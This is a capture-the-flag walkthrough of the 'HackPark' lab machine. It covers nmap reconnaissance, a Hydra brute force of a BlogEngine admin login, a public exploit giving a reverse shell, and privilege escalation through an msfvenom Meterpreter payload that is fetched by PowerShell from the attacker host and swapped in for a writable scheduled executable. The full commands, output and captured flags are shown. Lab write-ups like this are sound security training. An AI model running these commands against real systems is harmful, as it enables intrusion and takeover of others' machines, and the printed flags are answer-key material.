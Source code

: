﻿## HackPark
Brute forcing a website login with Hydra, identify and use a public exploit then escalate the privileges on a Windows machine!

### ### Reconnaissance
- There is a HTTP webpage on port 80 and is running a blog.
- Have couple pages and a login page at http://10.10.81.179/Account/login.aspx?ReturnURL=/admin/
- When visited the home page source, can see the comment saying the website is using BlogEngine 3.3.6.0
- Performed a nmap scan on the server to find if there are any open ports and other services.
- 

    PORT     STATE SERVICE            VERSION
    80/tcp   open  http               Microsoft IIS httpd 8.5
    | http-methods: 
    |_  Potentially risky methods: TRACE
    | http-robots.txt: 6 disallowed entries 
    | /Account/*.* /search /search.aspx /error404.aspx 
    |_/archive /archive.aspx
    |_http-server-header: Microsoft-IIS/8.5
    |_http-title: hackpark | hackpark amusements
    3389/tcp open  ssl/ms-wbt-server?
    |_ssl-date: 2020-07-04T17:15:46+00:00; -5s from scanner time.
    Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
    
    Host script results:
    |_clock-skew: -5s

- From above, we can see the server is running IIS HTTP 8.5 on port 80 and have 6 pages that are blocked for crawlers. 
- 3389 is open - potentially for RDP. 

### Cracking the login credentials
The default credentials for Blog Engine are admin:admin (Googled it), but it didn't worked, so let's brute force the admin id using hydra.

Before that we need to know the post request that this web page is generating for login, using Burp we can intercept the request and gather the required information.

    POST /Account/login.aspx?ReturnURL=%2fadmin%2f HTTP/1.1
    Host: 10.10.226.92
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://10.10.226.92/Account/login.aspx?ReturnURL=/admin/
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 560
    DNT: 1
    Connection: close
    Upgrade-Insecure-Requests: 1
    
    __VIEWSTATE=yrGSghNTTe59EhrZcotASBiG%2Fu27NFaNuaqaeJeceE2phHcTUqsXZ3Hl0a3SRfJ0VxuhZAjPF9VCrM6Q8x%2Fj6%2FQSuqhpgUXtrre1D%2BLhluiHKRZKCMF%2Btml5SyIgJed9mYrfaKSB5ecanrjmrT%2BnZHZUlGBG7UQ%2B1aIm74Iwy7D17DW9&__EVENTVALIDATION=jQVBkrYlbLeIG3SEUABAYZue3flPuZINcj8gu8A7CNvKIDb5QlIARVaqkq%2BUWa8%2FS5XYm0r28kj%2B3Im0tRMi1Zl4cd1hWRYiAPt3Hx5keSDUgU%2B4qqJ3DdJpI9gvJniOuEDK9y5%2FfqAiU%2FKfZFGbTENvw835mmLdTut1KKEJTpoFeMIx&ctl00%24MainContent%24LoginUser%24UserName=admin&ctl00%24MainContent%24LoginUser%24Password=admin&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in 

Using the above information from Burp, we can now frame the request in hydra for brute forcing. 

    $ hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.226.92 http-post-form "/Account/login.aspx?ReturnURL=/admin:__VIEWSTATE=yrGSghNTTe59EhrZcotASBiG%2Fu27NFaNuaqaeJeceE2phHcTUqsXZ3Hl0a3SRfJ0VxuhZAjPF9VCrM6Q8x%2Fj6%2FQSuqhpgUXtrre1D%2BLhluiHKRZKCMF%2Btml5SyIgJed9mYrfaKSB5ecanrjmrT%2BnZHZUlGBG7UQ%2B1aIm74Iwy7D17DW9&__EVENTVALIDATION=jQVBkrYlbLeIG3SEUABAYZue3flPuZINcj8gu8A7CNvKIDb5QlIARVaqkq%2BUWa8%2FS5XYm0r28kj%2B3Im0tRMi1Zl4cd1hWRYiAPt3Hx5keSDUgU%2B4qqJ3DdJpI9gvJniOuEDK9y5%2FfqAiU%2FKfZFGbTENvw835mmLdTut1KKEJTpoFeMIx&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed"
    Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.
    
    Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-07-04 20:43:57
    [DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
    [DATA] attacking http-post-form://10.10.226.92:80/Account/login.aspx?ReturnURL=/admin:__VIEWSTATE=yrGSghNTTe59EhrZcotASBiG%2Fu27NFaNuaqaeJeceE2phHcTUqsXZ3Hl0a3SRfJ0VxuhZAjPF9VCrM6Q8x%2Fj6%2FQSuqhpgUXtrre1D%2BLhluiHKRZKCMF%2Btml5SyIgJed9mYrfaKSB5ecanrjmrT%2BnZHZUlGBG7UQ%2B1aIm74Iwy7D17DW9&__EVENTVALIDATION=jQVBkrYlbLeIG3SEUABAYZue3flPuZINcj8gu8A7CNvKIDb5QlIARVaqkq%2BUWa8%2FS5XYm0r28kj%2B3Im0tRMi1Zl4cd1hWRYiAPt3Hx5keSDUgU%2B4qqJ3DdJpI9gvJniOuEDK9y5%2FfqAiU%2FKfZFGbTENvw835mmLdTut1KKEJTpoFeMIx&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed
    [STATUS] 949.00 tries/min, 949 tries in 00:01h, 14343450 to do in 251:55h, 16 active
    [80][http-post-form] host: 10.10.226.92   login: admin   password: 1qaz2wsx
    1 of 1 target successfully completed, 1 valid password found
    Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-07-04 20:45:33

The brute force attack found the password for admin account as: 1qaz2wsx

### Getting a reverse shell
- Using the [exploit](https://www.exploit-db.com/exploits/46353), update the local host ip in it and upload the file with the name as PostView.ascx using the post editor. 
- Open a netcat session to receive a reverse shell connection `nc -lnvp 4445`
Run the exploit with directory traversal `10.10.73.64/?theme=../../App_Data/files`
- The reverse shell should be established on the netcat session.  
-

    $ nc -lnvp 4445
    listening on [any] 4445 ...
    connect to [10.2.18.4] from (UNKNOWN) [10.10.73.64] 54341
    Microsoft Windows [Version 6.3.9600]
    (c) 2013 Microsoft Corporation. All rights reserved.
    whoami
    c:\windows\system32\inetsrv>whoami
    iis apppool\blog

The web server is running with the user `iis apppool\blog`. 

### Privilege Escalation 

- Lets create a meterpreter session for more stable executions, to do this, we need to create a payload using msfvenom:
`$ msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.2.18.4 LPORT=4444 -f exe -o shell.exe`

- Open a reverse shell handler in Metasploit using the `exploit/multi/handler` with payload `windows/meterpreter/reverse_tcp` on port 4444.

- Start a simple web server using `python3 -m http.server` in same directory. 
In the reverse shell that was already opened earlier, with the help of powershell lets download the payload and start the process.
- 

    powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.2.18.4:8000/shell.exe','shell.exe')"
    c:\Windows\Temp>powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.2.18.4:8000/shell.exe','shell.exe')"
    dir
    c:\Windows\Temp>dir
     Volume in drive C has no label.
     Volume Serial Number is 0E97-C552
     Directory of c:\Windows\Temp
    07/05/2020  08:34 AM    <DIR>          .
    07/05/2020  08:34 AM    <DIR>          ..
    08/06/2019  02:13 PM             8,795 Amazon_SSM_Agent_20190806141239.log
    08/06/2019  02:13 PM           181,468 Amazon_SSM_Agent_20190806141239_000_AmazonSSMAgentMSI.log
    08/06/2019  02:13 PM             1,206 cleanup.txt
    08/06/2019  02:13 PM               421 cmdout
    08/06/2019  02:11 PM                 0 DMI2EBC.tmp
    08/03/2019  10:43 AM                 0 DMI4D21.tmp
    08/06/2019  02:12 PM             8,743 EC2ConfigService_20190806141221.log
    08/06/2019  02:12 PM           292,438 EC2ConfigService_20190806141221_000_WiXEC2ConfigSetup_64.log
    07/05/2020  08:34 AM    <DIR>          Microsoft
    07/05/2020  08:34 AM            73,802 shell.exe
    08/06/2019  02:13 PM                21 stage1-complete.txt
    08/06/2019  02:13 PM            28,495 stage1.txt
    05/12/2019  09:03 PM           113,328 svcexec.exe
    08/06/2019  02:13 PM                67 tmp.dat
                  13 File(s)        708,784 bytes
                   3 Dir(s)  39,141,916,672 bytes free
    
    .\shell.exe
    c:\Windows\Temp>.\shell.exe  

- This should open a Meterpreter session: 
- 

    meterpreter > sysinfo
    Computer        : HACKPARK
    OS              : Windows 2012 R2 (6.3 Build 9600).
    Architecture    : x64
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 1
    Meterpreter     : x86/windows
    meterpreter > 


Let see what services are running on the host and if there are any that we can use for exploit `meterpreter > ps`.

Of all the listed services, we can see windows scheduler is running.
 

     1376  672   WService.exe 
     1556  1376  WScheduler.exe 

Navigate to `c:\Program Files (x86)\SystemScheduler\Events` to examine the scheduler logs and the file `20198415519.INI_LOG.txt` shows there is a service `Message.exe` which is running every 30 seconds and the file is writable to everyone. 

    100777/rwxrwxrwx  536992   fil   2019-08-04 07:36:42 -0400  Message.exe

 Using the above, we can now replace this file with a malicious code which can spawn a shell. We already have a shell code that was generated using `msfvenom` earlier, so lets upload that to the victim and rename to Message.exe

    meterpreter > upload shell.exe 
    [*] uploading  : shell.exe -> shell.exe
    [*] Uploaded 72.07 KiB of 72.07 KiB (100.0%): shell.exe -> shell.exe
    [*] uploaded   : shell.exe -> shell.exe
    meterpreter > dir

Background the current Meterpreter session and start a new `multi/handler`  reverse shell listener. Wait for the scheduler to execute the malicious code and once executed, a new connection is established with administrator id. 

    meterpreter > background 
    [*] Backgrounding session 2...
    msf5 exploit(multi/handler) > run
    
    [*] Started reverse TCP handler on 10.2.18.4:4444 
    [*] Sending stage (176195 bytes) to 10.10.29.198
    [*] Meterpreter session 3 opened (10.2.18.4:4444 -> 10.10.29.198:64956) at 2020-07-05 12:56:07 -0400 
    meterpreter > shell
    Process 2484 created.
    Channel 1 created.
    Microsoft Windows [Version 6.3.9600]
    (c) 2013 Microsoft Corporation. All rights reserved.
    
    C:\PROGRA~2\SYSTEM~1>whoami
    whoami
    
    C:\PROGRA~2\SYSTEM~1>echo %username%
    echo %username%
    Administrator

We now have the Meterpreter session with Administrator access and grab the flags from `C:\Users\jeff\Desktop\user.txt` and `C:\Users\Administrator\Desktop\root.txt` which are 759bd8af507517bcfaede78a21a73e39 and 7e13d97f05f7ceb9881a3eb3d78d3e72 respectively. 

 
### Using WinPEAS

 [WinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS) is a utility where we can find more information about the Windows host and for any vulnerabilities. Download the file into the victim machine just like shell.exe above. 

From the Meterpreter, start the shell and execute the winPEAS.bat.

    meterpreter > shell
    Process 1008 created.
    Channel 1 created.
    Microsoft Windows [Version 6.3.9600]
    (c) 2013 Microsoft Corporation. All rights reserved.
    
    c:\Windows\Temp>.\winPEAS.bat

The system Original Install Date:     8/3/2019, 10:43:23 AM.




